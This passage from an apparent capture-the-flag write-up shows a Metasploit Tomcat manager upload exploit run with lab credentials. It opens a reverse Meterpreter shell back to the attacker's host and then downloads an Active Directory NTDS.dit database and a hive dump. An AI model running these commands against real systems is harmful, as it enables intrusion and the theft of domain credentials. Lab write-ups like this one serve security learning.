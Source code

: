 Since we have an exploit for tomcat, take advantage of the credential and get the user shell of "tomcat".
{% highlight shell %}
msf5 > use exploit/multi/http/tomcat_mgr_upload 
msf5 exploit(multi/http/tomcat_mgr_upload) > set httpusername admin
httpusername => admin
msf5 exploit(multi/http/tomcat_mgr_upload) > set httppassword 3@g01PdhB!
httppassword => 3@g01PdhB!
msf5 exploit(multi/http/tomcat_mgr_upload) > set rhost 10.10.10.55
rhost => 10.10.10.55
msf5 exploit(multi/http/tomcat_mgr_upload) > set rport 8080
rport => 8080
msf5 exploit(multi/http/tomcat_mgr_upload) > run

[*] Started reverse TCP handler on 10.10.14.36:4444 
[*] Retrieving session ID and CSRF token...
[*] Uploading and deploying 63aGm6...
[*] Executing 63aGm6...
[*] Undeploying 63aGm6 ...
[*] Sending stage (53906 bytes) to 10.10.10.55
[*] Meterpreter session 1 opened (10.10.14.36:4444 -> 10.10.10.55:53600) at 2020-01-14 14:53:18 +0200

meterpreter > getuid
Server username: tomcat

meterpreter > 
{% endhighlight %}

It is still not possible to get the "user.txt".<br>
However, we can get some Interesting files.
{% highlight shell %}
meterpreter > pwd
/home/tomcat/to_archive/pentest_data
meterpreter > ls
Listing: /home/tomcat/to_archive/pentest_data
=============================================

Mode              Size      Type  Last modified              Name
----              ----      ----  -------------              ----
100666/rw-rw-rw-  16793600  fil   2017-07-21 19:16:23 +0300  20170721114636_default_192.168.110.133_psexec.ntdsgrab._333512.dit
100666/rw-rw-rw-  12189696  fil   2017-07-21 19:16:45 +0300  20170721114637_default_192.168.110.133_psexec.ntdsgrab._089134.bin

meterpreter >
{% endhighlight %}

We can download these files by "download" command of  meterpreter shell.
{% highlight shell %}
meterpreter > download 20170721114636_default_192.168.110.133_psexec.ntdsgrab._333512.dit

---

meterpreter > download 20170721114637_default_192.168.110.133_psexec.ntdsgrab._089134.bin
{% endhighlight %}
